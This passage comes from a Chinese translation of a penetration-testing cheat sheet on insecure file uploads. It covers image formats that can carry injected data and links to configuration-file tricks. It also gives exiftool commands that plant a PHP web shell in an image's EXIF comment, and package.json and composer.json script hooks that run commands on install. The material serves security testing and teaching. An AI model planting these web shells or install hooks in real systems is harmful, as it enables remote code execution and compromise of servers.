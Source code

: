   ```
  - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): 使用 createPNGwithPLTE.php(文件在`图片压缩`文件夹中)
  - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): 使用 createGIFwithGlobalColorTable.php(文件在`图片压缩`文件夹中)

### 具有自定义元数据的图片

创建自定义图片，并使用`exiftool`插入EXIF标签。有关多个EXIF标签的列表，请访问 [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### 配置文件

如果您尝试将文件上传到：

- PHP 服务器, 关于 [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) 执行代码的技巧
- ASP 服务器, 关于 [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) 执行代码的技巧
- uWSGI 服务器, 关于 [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) 执行代码的技巧

配置文件示例

- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
- [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

针对某些特定环境，或许您可以上传一个带有定制脚本的JSON文件，尝试覆盖依赖项管理器配置文件。

- package.json
  
  ```js
  "scripts": {
      "prepare" : "/bin/touch /tmp/pwned.txt"
  }
  ```
- composer.json
  
  ```js
  "scripts": {
      "pre-command-run" : [
      "/bin/touch /tmp/pwned.txt"
      ]
  }
  ```

